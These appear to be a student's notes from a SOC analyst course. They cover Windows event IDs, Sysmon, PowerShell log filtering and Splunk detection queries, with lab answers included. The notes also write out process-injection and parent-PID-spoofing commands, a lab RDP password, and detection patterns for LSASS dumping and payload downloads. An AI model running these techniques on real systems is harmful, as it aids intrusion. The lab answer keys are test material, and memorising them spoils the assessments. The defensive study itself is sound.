

SOC Analyst Pathway
Useful Windows Event Logs
$ xfreerdp /u:Administrator /p:'HTB_@cad3my_lab_W1n10_r00t!@0' /v:[Target IP] /dynamic-resolution
1. Windows System Logs
Event ID 1074 (System Shutdown/Restart): This event log indicates when and why the system was shut down or restarted. By monitoring these events, you can determine if there are unexpected shutdowns or restarts, potentially revealing malicious activity such as malware infection or unauthorized user access.
Event ID 6005 (The Event log service was started): This event log marks the time when the Event Log Service was started. This is an important record, as it can signify a system boot-up, providing a starting point for investigating system performance or potential security incidents around that period. It can also be used to detect unauthorized system reboots.
Event ID 6006 (The Event log service was stopped): This event log signifies the moment when the Event Log Service was stopped. It is typically seen when the system is shutting down. Abnormal or unexpected occurrences of this event could point to intentional service disruption for covering illicit activities.
Event ID 6013 (Windows uptime): This event occurs once a day and shows the uptime of the system in seconds. A shorter than expected uptime could mean the system has been rebooted, which could signify a potential intrusion or unauthorized activities on the system.
Event ID 7040 (Service status change): This event indicates a change in service startup type, which could be from manual to automatic or vice versa. If a crucial service's startup type is changed, it could be a sign of system tampering.
2. Windows Security Logs
Event ID 1102 (The audit log was cleared): Clearing the audit log is often a sign of an attempt to remove evidence of an intrusion or malicious activity.
Event ID 1116 (Antivirus malware detection): This event is particularly important because it logs when Defender detects a malware. A surge in these events could indicate a targeted attack or widespread malware infection. Event ID 1118 (Antivirus remediation activity has started): This event signifies that Defender has begun the process of removing or quarantining detected malware. It's important to monitor these events to ensure that remediation activities are successful.
Event ID 1119 (Antivirus remediation activity has succeeded): This event signifies that the remediation process for detected malware has been successful. Regular monitoring of these events will help ensure that identified threats are effectively neutralized.
Event ID 1120 (Antivirus remediation activity has failed): This event is the counterpart to 1119 and indicates that the remediation process has failed. These events should be closely monitored and addressed immediately to ensure threats are effectively neutralized.
Event ID 4624 (Successful Logon): This event records successful logon events. This information is vital for establishing normal user behavior. Abnormal behavior, such as logon attempts at odd hours or from different locations, could signify a potential security threat.
Event ID 4625 (Failed Logon): This event logs failed logon attempts. Multiple failed logon attempts could signify a brute-force attack in progress.
Event ID 4648 (A logon was attempted using explicit credentials): This event is triggered when a user logs on with explicit credentials to run a program. Anomalies in these logon events could indicate lateral movement within a network, which is a common technique used by attackers.
Event ID 4656 (A handle to an object was requested): This event is triggered when a handle to an object (like a file, registry key, or process) is requested. This can be a useful event for detecting attempts to access sensitive resources.
Event ID 4672 (Special Privileges Assigned to a New Logon): This event is logged whenever an account logs on with super user privileges. Tracking these events helps to ensure that super user privileges are not being abused or used maliciously.
Event ID 4698 (A scheduled task was created): This event is triggered when a scheduled task is created. Monitoring this event can help you detect persistence mechanisms, as attackers often use scheduled tasks to maintain access and run malicious code.
Event ID 4700 & Event ID 4701 (A scheduled task was enabled/disabled): This records the enabling or disabling of a scheduled task. Scheduled tasks are often manipulated by attackers for persistence or to run malicious code, thus these logs can provide valuable insight into suspicious activities.
Event ID 4702 (A scheduled task was updated): Similar to 4698, this event is triggered when a scheduled task is updated. Monitoring these updates can help detect changes that may signify malicious intent.
Event ID 4719 (System audit policy was changed): This event records changes to the audit policy on a computer. It could be a sign that someone is trying to cover their tracks by turning off auditing or changing what events get audited.
Event ID 4738 (A user account was changed): This event records any changes made to user accounts, including changes to privileges, group memberships, and account settings. Unexpected account changes can be a sign of account takeover or insider threats.
Event ID 4771 (Kerberos pre-authentication failed): This event is similar to 4625 (failed logon) but specifically for Kerberos authentication. An unusual amount of these logs could indicate an attacker attempting to brute force your Kerberos service.
Event ID 4776 (The domain controller attempted to validate the credentials for an account): This event helps track both successful and failed attempts at credential validation by the domain controller. Multiple failures could suggest a brute-force attack.
Event ID 5001 (Antivirus real-time protection configuration has changed): This event indicates that the real-time protection settings of Defender have been modified. Unauthorized changes could indicate an attempt to disable or undermine the functionality of Defender.
Event ID 5140 (A network share object was accessed): This event is logged whenever a network share is accessed. This can be critical in identifying unauthorized access to network shares.
Event ID 5142 (A network share object was added): This event signifies the creation of a new network share. Unauthorized network shares could be used to exfiltrate data or spread malware across a network.
Event ID 5145 (A network share object was checked to see whether client can be granted desired access): This event indicates that someone attempted to access a network share. Frequent checks of this sort might indicate a user or a malware trying to map out the network shares for future exploits.
Event ID 5157 (The Windows Filtering Platform has blocked a connection): This is logged when the Windows Filtering Platform blocks a connection attempt. This can be helpful for identifying malicious traffic on your network.
Event ID 7045 (A service was installed in the system): A sudden appearance of unknown services might suggest malware installation, as many types of malware install themselves as services.
Windows Event Logging Basics exercises
Analyze the event with ID 4624, that took place on 8/3/2022 at 10:23:25. Conduct a similar investigation as outlined in this section and provide the name of the executable responsible for the modification of the auditing settings as your answer. Answer format: T_W_____.exe
The point is to see what changed after the logon. After the successful logon (4624), the user conduct 4907 (Auditing settings on object were changed.)
Answer: TiWorker.exe
MD5=1F009DE6A013A282D07436241512C056,SHA256=C897C345C3BCF3E96589A0FEEEA8B6D26CF33C091AC3EE2162DD27F8A79C3FF5,IMPHASH=48D15928B7CDAE9E088E08F2C8DE7CFE Signed: true
C:\Tools\Sysmon> sysmon.exe -i -accepteula -h md5,sha256,imphash -l -n
<ImageLoad onmatch="exclude">
<!--NOTE: Using "include" with no rules means nothing in this section will be logged-->
</ImageLoad>
C:\Tools\Sysmon> sysmon.exe -c sysmonconfig-export.xml
powershell -ep bypass
Import-Module .\Invoke-PSInject.ps1
Invoke-PSInject -ProcId [Process ID of spoolsv.exe] -PoshCode "V3JpdGUtSG9zdCAiSGVsbG8sIEd1cnU5OSEi"
PS C:\Tools\psgetsystem> powershell -ep bypass
PS C:\Tools\psgetsystem> Import-Module .\psgetsys.ps1
PS C:\Tools\psgetsystem> [MyProcess]::CreateProcessFromParent([Process ID of spoolsv.exe],"C:\Windows\System32\cmd.exe","")
c:\Tools\SilkETW_SilkService_v8\v8\SilkETW>SilkETW.exe -t user -pn Microsoft-Windows-Kernel-Process -ot file -p C:\windows\temp\etw.json
PS C:\Tools\GhostPack Compiled Binaries>.\Seatbelt.exe TokenPrivileges
c:\Tools\SilkETW_SilkService_v8\v8\SilkETW>SilkETW.exe -t user -pn Microsoft-Windows-DotNETRuntime -uk 0x2038 -ot file -p C:\windows\temp\etw.json
PS C:\Users\Administrator> Get-WinEvent -ListLog * | Select-Object LogName, RecordCount, IsClassicLog, IsEnabled, LogMode, LogType | Format-Table -AutoSize
PS C:\Users\Administrator> Get-WinEvent -ListProvider * | Format-Table -AutoSize
# Retrieving events from the System log
PS C:\Users\Administrator> Get-WinEvent -LogName 'System' -MaxEvents 50 | Select-Object TimeCreated, ID, ProviderName, LevelDisplayName, Message | Format-Table -AutoSize
# Retrieving events from Microsoft-Windows-WinRM/Operational
PS C:\Users\Administrator> Get-WinEvent -LogName 'Microsoft-Windows-WinRM/Operational' -MaxEvents 30 | Select-Object TimeCreated, ID, ProviderName, LevelDisplayName, Message | Format-Table -AutoSize
PS C:\Users\Administrator> Get-WinEvent -LogName 'Microsoft-Windows-WinRM/Operational' -Oldest -MaxEvents 30 | Select-Object TimeCreated, ID, ProviderName, LevelDisplayName, Message | Format-Table -AutoSize
# Retrieving events from .evtx Files
PS C:\Users\Administrator> Get-WinEvent -Path 'C:\Tools\chainsaw\EVTX-ATTACK-SAMPLES\Execution\exec_sysmon_1_lolbin_pcalua.evtx' -MaxEvents 5 | Select-Object TimeCreated, ID, ProviderName, LevelDisplayName, Message | Format-Table -AutoSize
# Filtering events with FilterHashtable
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1,3} | Select-Object TimeCreated, ID, ProviderName, LevelDisplayName, Message | Format-Table -AutoSize
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{Path='C:\Tools\chainsaw\EVTX-ATTACK-SAMPLES\Execution\sysmon_mshta_sharpshooter_stageless_meterpreter.evtx'; ID=1,3} | Select-Object TimeCreated, ID, ProviderName, LevelDisplayName, Message | Format-Table -AutoSize
# get event logs based on a date range (5/28/23 - 6/2/2023)
PS C:\Users\Administrator> $startDate = (Get-Date -Year 2023 -Month 5 -Day 28).Date
PS C:\Users\Administrator> $endDate = (Get-Date -Year 2023 -Month 6 -Day 3).Date
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1,3; StartTime=$startDate; EndTime=$endDate} | Select-Object TimeCreated, ID, ProviderName, LevelDisplayName, Message | Format-Table -AutoSize
# Filtering events with FilterHashtable & XML
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=3} |
`ForEach-Object {
$xml = [xml]$_.ToXml()
$eventData = $xml.Event.EventData.Data
New-Object PSObject -Property @{
SourceIP = $eventData | Where-Object {$_.Name -eq "SourceIp"} | Select-Object -ExpandProperty '#text'
DestinationIP = $eventData | Where-Object {$_.Name -eq "DestinationIp"} | Select-Object -ExpandProperty '#text'
ProcessGuid = $eventData | Where-Object {$_.Name -eq "ProcessGuid"} | Select-Object -ExpandProperty '#text'
ProcessId = $eventData | Where-Object {$_.Name -eq "ProcessId"} | Select-Object -ExpandProperty '#text'
}
} | Where-Object {$_.DestinationIP -eq "52.113.194.132"}
PS C:\Users\Administrator> $Query = @"
<QueryList>
<Query Id="0">
<Select Path="Microsoft-Windows-Sysmon/Operational">*[System[(EventID=7)]] and *[EventData[Data='mscoree.dll']] or *[EventData[Data='clr.dll']]
</Select>
</Query>
</QueryList>
"@
PS C:\Users\Administrator> Get-WinEvent -FilterXml $Query | ForEach-Object {Write-Host $_.Message `n}
# Filtering events with FilterXPath
PS C:\Users\Administrator> Get-WinEvent -LogName 'Microsoft-Windows-Sysmon/Operational' -FilterXPath "*[EventData[Data[@Name='Image']='C:\Windows\System32\reg.exe']] and *[EventData[Data[@Name='CommandLine']='`"C:\Windows\system32\reg.exe`" ADD HKCU\Software\Sysinternals /v EulaAccepted /t REG_DWORD /d 1 /f']]" | Select-Object TimeCreated, ID, ProviderName, LevelDisplayName, Message | Format-Table -AutoSize
PS C:\Users\Administrator> Get-WinEvent -LogName 'Microsoft-Windows-Sysmon/Operational' -FilterXPath "*[System[EventID=3] and EventData[Data[@Name='DestinationIp']='52.113.194.132']]"
# Filtering events based on property values
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} -MaxEvents 1 | Select-Object -Property *
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} | Where-Object {$_.Properties[21].Value -like "*-enc*"} | Format-List
Get-WinEvent -FilterHashtable @{Path='C:\Tools\chainsaw\EVTX-ATTACK-SAMPLES\Lateral Movement\*.evtx'} | Where-Object{$_.Message -like "*\\*\PRINT*"} | Format-Table -AutoSize
\\*\PRINT
Get-WinEvent Microsoft-Windows-WLAN-AutoConfig/Operational | Where-Object{$_.Message -like "*$SearchString*"}
 12:30:30
12:30:30
Skill assessment
Q1: By examining the logs located in the "C:\Logs\DLLHijack" directory, determine the process responsible for executing a DLL hijacking attack. Enter the process name as your answer. Answer format: _.exe
-
modify the sysmonconfig file with this changes (Imageload Onmatch = exclusive ) Update it in cmd with (sysmon.exe -c .)
-
open Event viewer and open saved logs. Filter event id equals 7 and search for 'wininet.dll'.
Q2: By examining the logs located in the "C:\Logs\PowershellExec" directory, determine the process that executed unmanaged PowerShell code. Enter the process name as your answer. Answer format: _.exe
-
correctly configure the sysmon. and open saved logs in Event viewer
-
Filter event id 7 and search 'wininet.dll' or 'clr.dll' or 'clrjit.dll' and see if anything process is weird. Or search '.Net'
Q3: By examining the logs located in the "C:\Logs\PowershellExec" directory, determine the process that injected into the process that executed unmanaged PowerShell code. Enter the process name as your answer. Answer format: _.exe
In Q2 we know the process id is 3776, we need to find its parent process. Who create this thread.
In the Sysmon event ID 8 (CreateRemoteThread), a log is generated when a process creates a thread in another process by using the CreateRemoteThread function. This technique is used by malware to inject code and hide in other processes. The event indicates the source and target process.
So, filter event id 8 and find the TargetProcessId: 3776.
Q4: By examining the logs located in the "C:\Logs\Dump" directory, determine the process that performed an LSASS dump. Enter the process name as your answer. Answer format: _.exe
# event id is 10
<ProcessAccess onmatch="exclude">
<!--NOTE: Using "include" with no rules means nothing in this section will be logged-->
</ProcessAccess>
Filter event id 10 and search 'lsass.exe', trying every exe file that looks malicious.
processhacker.exe
Q5: By examining the logs located in the "C:\Logs\Dump" directory, determine if an ill-intended login took place after the LSASS dump. Answer format: Yes or No
No
Q6: By examining the logs located in the "C:\Logs\StrangePPID" directory, determine a process that was used to temporarily execute code based on a strange parent-child relationship. Enter the process name as your answer. Answer format: _.exe
SourceImage: C:\Windows\System32\svchost.exe TargetProcessGUID: {67e39d39-f935-6269-8203-000000000300} TargetProcessId: 7780 TargetImage: C:\Windows\System32\werfault.exe
Hunting For Stuxbot
Q3:
powershell.file.script_block_text : P*V*
Hunting For Stuxbot (Round 2)
Q1:
"C:\Users\Public*" and event.code: 11
Sysmon id 11: FileCreate, Event ID 11 contains details about the file's path, the operation that created or modified the file, and the file's hash.
Q2:
event.code:13 AND registry.path: *Run*
Sysmon Event ID 13 - RegistryEvent (Value Set)
This Registry event type identifies Registry value modifications. The event records the value written for Registry values of type DWORD and QWORD .
Q3:
powershell.file.script_block_text: *Enter-PSSession* and event.code:4104
Event 4104 will capture PowerShell commands and show script block logging. A great indicator that PowerShell was executed is Event ID 400. PowerShell's Event ID 400 will detail when the EngineState has started. You may also be wondering how we can correlate an Event ID 400 with an Event ID 4103.
Understanding Log Sources & Investigating with Splunk
search index="main" "UNKNOWN"
UNKNOWN is used as a keyword to filter and retrieve events that include this specific term.
index="main" "*UNKNOWN*"
index="main" EventCode!=1
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 | fields - User
the fields command excludes the User field from the search results.
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 | table _time, host, Image
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 | rename Image as Process
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 | dedup Image
The 'dedup' command removes duplicate events.
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 | sort - _time
the most recent events are shown first.
index="main" sourcetype="WinEventLog:Sysmon" EventCode=3 | stats count by _time, Image
The stats command performs statistical operations.
index="main" sourcetype="WinEventLog:Sysmon" EventCode=3 | chart count by _time, Image
The chart command creates a data visualization based on statistical operations.
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 | eval Process_Path=lower(Image)
The eval command creates or redefines fields. This command creates a new field Process_Path which contains the lowercase version of the Image field. It doesn't change the actual Image field, but creates a new field that can be used in subsequent operations or for display purposes.
index="main" EventCode=4662 | rex max_match=0 "[^%](?<guid>{.*})" | table guid
The rex command extracts new fields from existing ones using regular expressions.
rex max_match=0 "[^%](?<guid>{.*})" uses the rex command to extract values matching the pattern from the events' fields. The regex pattern {.*} looks for substrings that begin with { and end with }. The [^%] part ensures that the match does not begin with a % character. The captured value within the curly braces is assigned to the named capture group guid.
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 | rex field=Image "(?P<filename>[^\\\]+)$" | eval filename=lower(filename) | lookup malware_lookup.csv filename OUTPUTNEW is_malware | table filename, is_malware
The lookup command enriches the data with external sources.
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 | eval filename=mvdedup(split(Image, "\\")) | eval filename=mvindex(filename, -1) | eval filename=lower(filename) | lookup malware_lookup.csv filename OUTPUTNEW is_malware | table filename, is_malware | dedup filename, is_malware
| inputlookup malware_lookup.csv
The inputlookup command retrieves data from a lookup file without joining it to the search results.
index="main" earliest=-7d EventCode!=1
Every event in Splunk has a timestamp. Using the time range picker or the earliest and latest commands, you can limit searches to specific time periods.
index="main" sourcetype="WinEventLog:Sysmon" (EventCode=1 OR EventCode=3) | transaction Image startswith=eval(EventCode=1) endswith=eval(EventCode=3) maxspan=1m | table Image | dedup Image
The transaction command is used in Splunk to group events that share common characteristics into transactions, often used to track sessions or user activities that span across multiple events.
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 NOT [ search index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 | top limit=100 Image | fields Image ] | table _time, Image, CommandLine, User, ComputerName
A subsearch in Splunk is a search that is nested inside another search. It's used to compute a set of results that are then used in the outer search.
SPL
| eventcount summarize=false index=* | table index
This query uses eventcount to count events in all indexes, then summarize=false is used to display counts for each index separately, and finally, the table command is used to present the data in tabular form.
| metadata type=sourcetypes
This search uses the metadata command, which provides us with various statistics about specified indexed fields. Here, we're focusing on sourcetypes. The result is a list of all sourcetypes in our Splunk environment, along with additional metadata such as the first time a source type was seen (firstTime), the last time it was seen (lastTime), and the number of hosts (totalCount).
For a simpler view, we can use the following search.
| metadata type=sourcetypes index=* | table sourcetype
| metadata type=sources index=* | table source
This command returns a list of all data sources in the Splunk environment.
sourcetype="WinEventLog:Security" | table _raw
sourcetype="WinEventLog:Security" | table *
The use of table * can result in a very wide table if our events have a large number of fields.
sourcetype="WinEventLog:Security" | fields Account_Name, EventCode | table Account_Name, EventCode
sourcetype="WinEventLog:Security" | fieldsummary
The values provided by the fieldsummary command are calculated based on the events returned by our search.
index=* sourcetype=* | bucket _time span=1d | stats count by _time, index, sourcetype | sort - _time
bucket command is used to group the events based on the _time field into 1-day buckets.
index=* sourcetype=* | rare limit=10 index, sourcetype
The rare command can help us identify uncommon event types, which might be indicative of abnormal behavior.
index="main" | rare limit=20 useother=f ParentImage
This command displays the 20 least common values of the ParentImage field.
index=* sourcetype=* | fieldsummary | where count < 100 | table field, count, distinct_count
This search shows a summary of all fields (fieldsummary), filters out fields that appear in less than 100 events (where count < 100), and then displays a table (table) showing the field name, total count, and distinct count.
index=* | sistats count by index, sourcetype, source, host
Introduction To Splunk & SPL
Q1:
sourcetype="WinEventLog:Security" EventCode=4768 | sistats count by Account_Name
The event code for a Kerberos authentication ticket request is 4768

Q2:
sourcetype="WinEventLog:Security" EventCode=4624 Account_Name=SYSTEM | sistats count by ComputerName
Q3:
sourcetype="WinEventLog:Security" EventCode=4624 | stats earliest(_time) as first_login latest(_time) as last_login count as total_attempts by Account_Name | eval duration = last_login - first_login | where duration <= 600 | sort - total_attempts | head 1 | fields Account_Name, total_attempts, duration
Using Splunk Applications
Q2:
index=* sourcetype="wineventlog:sysmon" EventCode=3 Image="*SharpHound.exe" | stats count
Intrusion Detection With Splunk (Real-world Scenario)
index="main" earliest=0
index="main" | stats count by sourcetype
index="main" sourcetype="WinEventLog:Sysmon"
index="main" uniwaldo.local
index="main" *uniwaldo.local*
index="main" ComputerName="*uniwaldo.local"
index="main" sourcetype="WinEventLog:Sysmon" | stats count by EventCode
Sysmon Event ID 1 - Process Creation: Useful for hunts targeting abnormal parent-child process hierarchies, as illustrated in the first lesson with Process Hacker. It's an event we can use later.
Sysmon Event ID 2 - A process changed a file creation time: Helpful in spotting "time stomp" attacks, where attackers alter file creation times. Bear in mind, not all such actions signal malicious intent.
Sysmon Event ID 3 - Network connection: A source of abundant noise since machines are perpetually establishing network connections. We may uncover anomalies, but let's consider other quieter areas first.
Sysmon Event ID 4 - Sysmon service state changed: Could be a useful hunt if attackers attempt to stop Sysmon, though the majority of these events are likely benign and informational, considering Sysmon's frequent legitimate starts and stops.
Sysmon Event ID 5 - Process terminated: This might aid us in detecting when attackers kill key processes or use sacrificial ones. For instance, Cobalt Strike often spawns temporary processes like werfault, the termination of which would be logged here, as well as the creation in ID 1.
Sysmon Event ID 6 - Driver loaded: A potential flag for BYOD (bring your own driver) attacks, though this is less common. Before diving deep into this, let's weed out more conspicuous threats first.
Sysmon Event ID 7 - Image loaded: Allows us to track dll loads, which is handy in detecting DLL hijacks.
Sysmon Event ID 8 - CreateRemoteThread: Potentially aids in identifying injected threads. While remote threads can be created legitimately, if an attacker misuses this API, we can potentially trace their rogue process and what they injected into.
Sysmon Event ID 10 - ProcessAccess: Useful for spotting remote code injection and memory dumping, as it records when handles on processes are made.
Sysmon Event ID 11 - FileCreate: With many files being created frequently due to updates, downloads, etc., it might be challenging to aim our hunt directly here. However, these events can be beneficial in correlating or identifying a file's origins later.
Sysmon Event ID 12 - RegistryEvent (Object create and delete) & Sysmon Event ID 13 - RegistryEvent (Value Set): While numerous events take place here, many registry events can be malicious, and with a good idea of what to look for, hunting here can be fruitful.
Sysmon Event ID 15 - FileCreateStreamHash: Relates to file streams and the "Mark of the Web" pertaining to external downloads, but we'll leave this aside for now.
Sysmon Event ID 16 - Sysmon config state changed: Logs alterations in Sysmon configuration, useful for spotting tampering.
Sysmon Event ID 17 - Pipe created & Sysmon Event ID 18 - Pipe connected: Record pipe creations and connections. They can help observe malware's interprocess communication attempts, usage of PsExec, and SMB lateral movement.
Sysmon Event ID 22 - DNSEvent: Tracks DNS queries, which can be beneficial for monitoring beacon resolutions and DNS beacons.
Sysmon Event ID 23 - FileDelete: Monitors file deletions, which can provide insights into whether a threat actor cleaned up their malware, deleted crucial files, or possibly attempted a ransomware attack.
Sysmon Event ID 25 - ProcessTampering (Process image change): Alerts on behaviors such as process herpadering, acting as a mini AV alert filter.
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 | stats count by ParentImage, Image
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 (Image="*cmd.exe" OR Image="*powershell.exe") | stats count by ParentImage, Image
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 (Image="*cmd.exe" OR Image="*powershell.exe") ParentImage="C:\\Windows\\System32\\notepad.exe"
index="main" 10.0.0.229 | stats count by sourcetype
index="main" 10.0.0.229 sourcetype="linux:syslog"
index="main" 10.0.0.229 sourcetype="WinEventLog:sysmon" | stats count by CommandLine
index="main" 10.0.0.229 sourcetype="WinEventLog:sysmon" | stats count by CommandLine, host
index="main" EventCode=4662 Access_Mask=0x100 Account_Name!=*$
index="main" EventCode=10 lsass | stats count by SourceImage
index="main" EventCode=10 lsass SourceImage="C:\\Windows\\System32\\notepad.exe"
index="main" CallTrace="*UNKNOWN*" | stats count by EventCode
index="main" CallTrace="*UNKNOWN*" | stats count by SourceImage
index="main" CallTrace="*UNKNOWN*" | where SourceImage!=TargetImage | stats count by SourceImage
index="main" CallTrace="*UNKNOWN*" SourceImage!="*Microsoft.NET*" CallTrace!=*ni.dll* CallTrace!=*clr.dll* | where SourceImage!=TargetImage | stats count by SourceImage
index="main" CallTrace="*UNKNOWN*" SourceImage!="*Microsoft.NET*" CallTrace!=*ni.dll* CallTrace!=*clr.dll* CallTrace!=*wow64* | where SourceImage!=TargetImage | stats count by SourceImage
index="main" CallTrace="*UNKNOWN*" SourceImage!="*Microsoft.NET*" CallTrace!=*ni.dll* CallTrace!=*clr.dll* CallTrace!=*wow64* SourceImage!="C:\\Windows\\Explorer.EXE" | where SourceImage!=TargetImage | stats count by SourceImage
index="main" CallTrace="*UNKNOWN*" SourceImage!="*Microsoft.NET*" CallTrace!=*ni.dll* CallTrace!=*clr.dll* CallTrace!=*wow64* SourceImage!="C:\\Windows\\Explorer.EXE" | where SourceImage!=TargetImage | stats count by SourceImage, TargetImage, CallTrace
Q1:
index="main" EventCode=10 lsass | stats count by SourceImage
rundll32.exe
Q2:
index="main" EventCode=10 lsass SourceImage="C:\\Windows\\System32\\rundll32.exe" | stats count by CallTrace

comsvcs.dll
Q3:
index="main" CallTrace="*UNKNOWN*" SourceImage!="*Microsoft.NET*" CallTrace!=*clr.dll* CallTrace!=*ni.dll* | where SourceImage!=TargetImage | stats count by SourceImage
rundll32.exe
Q4:
index="main" sourcetype="WinEventLog:Sysmon" EventCode=3 Image="C:\\Windows\\System32\\rundll32.exe" DestinationIp="*" | rex field=DestinationIp "10\\.0\\.0\\.(?<octet>\\d{1,3})" | search (octet>=0 AND octet<=99) OR (octet>=100 AND octet<=199) | stats values(DestinationIp) as destination_ips

10.0.0.186 and 10.0.0.91
Q5:
index=main EventCode=3 (SourceIp="10.0.0.186" OR SourceIp="10.0.0.91") DestinationPort="*" | stats values(DestinationPort) as destination_ports
index=main EventCode=3 (SourceIp="10.0.0.186" OR SourceIp="10.0.0.91") | stats count by DestinationPort
Detecting Attacker Behavior With Splunk Based On TTPs
- Example: Detection Of Reconnaissance Activities Leveraging Native Windows Binaries
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 Image=*\\ipconfig.exe OR Image=*\\net.exe OR Image=*\\whoami.exe OR Image=*\\netstat.exe OR Image=*\\nbtstat.exe OR Image=*\\hostname.exe OR Image=*\\tasklist.exe | stats count by Image,CommandLine | sort - count
- Example: Detection Of Requesting Malicious Payloads/Tools Hosted On Reputable/Whitelisted Domains (Such As githubusercontent.com)
index="main" sourcetype="WinEventLog:Sysmon" EventCode=22 QueryName="*github*" | stats count by Image, QueryName
- Example: Detection Of PsExec Usage
index="main" sourcetype="WinEventLog:Sysmon" EventCode=13 Image="C:\\Windows\\system32\\services.exe" TargetObject="HKLM\\System\\CurrentControlSet\\Services\\*\\ImagePath" | rex field=Details "(?<reg_file_name>[^\\\]+)$" | eval reg_file_name = lower(reg_file_name), file_name = if(isnull(file_name),reg_file_name,lower(file_name)) | stats values(Image) AS Image, values(Details) AS RegistryDetails, values(_time) AS EventTimes, count by file_name, ComputerName
| rex field=Details "(?<reg_file_name>[^\\\]+)$": The rex command here is extracting the file name from the Details field using a regular expression. The pattern [^\]+)$ captures the part of the path after the last backslash, which is typically the file name. This value is stored in a new field reg_file_name.
index="main" sourcetype="WinEventLog:Sysmon" EventCode=11 Image=System | stats count by TargetFilename
index="main" sourcetype="WinEventLog:Sysmon" EventCode=18 Image=System | stats count by PipeName
- Example: Detection Of Utilizing Archive Files For Transferring Tools Or Data Exfiltration
index="main" EventCode=11 (TargetFilename="*.zip" OR TargetFilename="*.rar" OR TargetFilename="*.7z") | stats count by ComputerName, User, TargetFilename | sort - count
- Example: Detection Of Utilizing PowerShell or MS Edge For Downloading Payloads/Tools
index="main" sourcetype="WinEventLog:Sysmon" EventCode=11 Image="*powershell.exe*" | stats count by Image, TargetFilename | sort + count
index="main" sourcetype="WinEventLog:Sysmon" EventCode=11 Image="*msedge.exe" TargetFilename=*"Zone.Identifier" | stats count by TargetFilename | sort + count
The *Zone.Identifier is indicative of a file downloaded from the internet or another potentially untrustworthy source. Windows uses this zone identifier to track the security zones of a file. The Zone.Identifier is an ADS (Alternate Data Stream) that contains metadata about where the file was downloaded from and its security settings.
- Example: Detection Of Execution From Atypical Or Suspicious Locations
index="main" EventCode=1 | regex Image="C:\\\\Users\\\\.*\\\\Downloads\\\\.*" | stats count by Image
- Example: Detection Of Executables or DLLs Being Created Outside The Windows Directory
index="main" EventCode=11 (TargetFilename="*.exe" OR TargetFilename="*.dll") TargetFilename!="*\\windows\\*" | stats count by User, TargetFilename | sort + count
- Example: Detection Of Misspelling Legitimate Binaries
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 (CommandLine="*psexe*.exe" NOT (CommandLine="*PSEXESVC.exe" OR CommandLine="*PsExec64.exe")) OR (ParentCommandLine="*psexe*.exe" NOT (ParentCommandLine="*PSEXESVC.exe" OR ParentCommandLine="*PsExec64.exe")) OR (ParentImage="*psexe*.exe" NOT (ParentImage="*PSEXESVC.exe" OR ParentImage="*PsExec64.exe")) OR (Image="*psexe*.exe" NOT (Image="*PSEXESVC.exe" OR Image="*PsExec64.exe")) | table Image, CommandLine, ParentImage, ParentCommandLine
- Example: Detection Of Using Non-standard Ports For Communications/Transfers
index="main" EventCode=3 NOT (DestinationPort=80 OR DestinationPort=443 OR DestinationPort=22 OR DestinationPort=21) | stats count by SourceIp, DestinationIp, DestinationPort | sort - count
Detecting Attacker Behavior With Splunk Based On Analytics
The streamstats command allows us to perform real-time analytics on the data, which can be useful for identifying unusual patterns or trends.
index="main" sourcetype="WinEventLog:Sysmon" EventCode=3 | bin _time span=1h | stats count as NetworkConnections by _time, Image | streamstats time_window=24h avg(NetworkConnections) as avg stdev(NetworkConnections) as stdev by Image | eval isOutlier=if(NetworkConnections > (avg + (0.5*stdev)), 1, 0) | search isOutlier=1
- Example: Detection Of Abnormally Long Commands
index="main" sourcetype="WinEventLog:Sysmon" Image=*cmd.exe | eval len=len(CommandLine) | table User, len, CommandLine | sort - len
index="main" sourcetype="WinEventLog:Sysmon" Image=*cmd.exe ParentImage!="*msiexec.exe" ParentImage!="*explorer.exe" | eval len=len(CommandLine) | table User, len, CommandLine | sort - len
- Example: Detection Of Abnormal cmd.exe Activity
index="main" EventCode=1 (CommandLine="*cmd.exe*") | bucket _time span=1h | stats count as cmdCount by _time User CommandLine | eventstats avg(cmdCount) as avg stdev(cmdCount) as stdev | eval isOutlier=if(cmdCount > avg+1.5*stdev, 1, 0) | search isOutlier=1
